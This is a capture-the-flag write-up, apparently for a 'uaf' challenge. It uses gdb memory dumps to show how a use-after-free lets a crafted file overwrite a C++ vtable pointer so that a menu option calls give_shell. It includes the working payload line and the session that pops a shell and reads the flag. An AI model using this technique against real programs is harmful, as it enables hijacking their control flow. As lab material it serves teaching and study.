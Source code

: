 Inside rbp-0x38, there should be ther address for variable ``m`` (``A``)
```bash
gdb-peda$ x/4wx $rbp-0x38
0x7ffdb3d37bc8: 0x00e24c50      0x00000000      0x00e24ca0      0x00000000
```
This is how ``m`` looks like:
```
gdb-peda$ x/80wx 0x0212bc50
0x212bc50:      0x00401570      0x00000000      0x00000019      0x00000000
0x212bc60:      0x0212bc38      0x00000000      0x00000031      0x00000000
```
Let's take a look at 0x401570 (``B``)
```
gdb-peda$ x/20wx 0x401570
0x401570 <vtable for Man+16>:   0x0040117a      0x00000000      0x004012d2      0x00000000
0x401580 <vtable for Human>:    0x00000000      0x00000000      0x004015f0      0x00000000
0x401590 <vtable for Human+16>: 0x0040117a      0x00000000      0x00401192      0x00000000
0x4015a0 <typeinfo name for Woman>:     0x6d6f5735      0x00006e61      0x00000000      0x00000000
0x4015b0 <typeinfo for Woman>:  0x00602390      0x00000000      0x004015a0      0x00000000
```
So, the address 0x4012d2 is getting called when option ``1`` is selected (function ``introduce``) (``C``)

Which means, by overwriting first 4 bytes of ``m``, we could call ``give_shell`` instead of ``introduce``

Now lets find exactly where the new ``data`` is allocated.

address of ``m`` : 0xe24c50

1st read after free :
arg[0]: 0x3
arg[1]: 0xe24ca0 --> 0xe24c40 --> 0x0
arg[2]: 0x4

2nd read :
arg[0]: 0x4
arg[1]: 0xe24c50 --> 0x0
arg[2]: 0x4

So, we have to read twice to overwrite the first 4 bytes of ``m``

payload:
```bash
uaf@prowl:~$ python -c 'print "\x68\x15\x40\x00"' > /tmp/jun_uaf/a
uaf@prowl:~$ ./uaf 4 /tmp/jun_uaf/a
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
```
